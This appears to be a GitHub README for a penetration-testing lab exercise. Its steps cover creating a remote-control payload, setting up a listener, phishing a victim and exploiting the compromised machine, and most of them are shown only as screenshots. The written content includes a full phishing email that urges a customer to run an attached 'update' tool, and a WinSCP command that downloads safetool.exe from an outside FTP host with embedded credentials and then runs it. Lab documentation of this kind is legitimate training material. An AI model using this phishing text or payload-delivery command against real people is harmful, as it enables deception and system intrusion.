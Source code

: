 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>

I will conduct an assessment by performing initial reconnaissance and information gathering by reviewing the client's website, extracting information using whois and performing DNS reconnaissance - all while retaining command history for a pentest report.

**<p style="font-size: 15px;">Step 1: Create a remote control payloadkal.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

%userprofile%\Downloads\safetool.exe

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/41e8a85b-cf6b-46f9-b5c5-cb276b24c147)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/4658704e-6911-4a36-9ed7-88697c762d83)













